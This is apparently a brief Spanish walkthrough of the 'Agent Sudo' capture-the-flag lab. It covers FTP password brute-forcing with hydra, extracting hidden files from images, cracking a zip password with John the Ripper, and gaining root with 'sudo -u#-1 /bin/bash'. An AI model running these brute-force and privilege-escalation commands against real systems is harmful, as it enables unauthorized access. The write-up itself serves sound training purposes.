








Agent Sudo
Nmap

Web

Cambiamos el user agent a R
Cambiamos el user agent a C
Fuzzing
FTP
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.157.179Podemos descargar todos los archivos usando mget *
 

Steg
exiftool cutie.pngPodemos ver un Warning Trailer data after PNG IEND chunk


Extraemos el zip de la imagen
binwalk cutie.png -eEl archivo zip tiene contraseña, le pasamos JohnTheRipper
zip2john 8702.zip > zip.hashes
john zip.hashesDescomprimimos el zip
7z e 8702.zip
Pasamos el mensaje oculto por CyberChef
Extraemos el mensaje de la otra imagen
 SSH
Descargamos la imagen
sudo scp james@10.10.157.179:Alien_autospy.jpg ~/Buscamos la imagen en google. El nombre del incidente es Roswell alien autopsy
Escalada de Privilegios

Buscamos en google los permisos y encontramos como escalar
sudo -u#-1 /bin/bash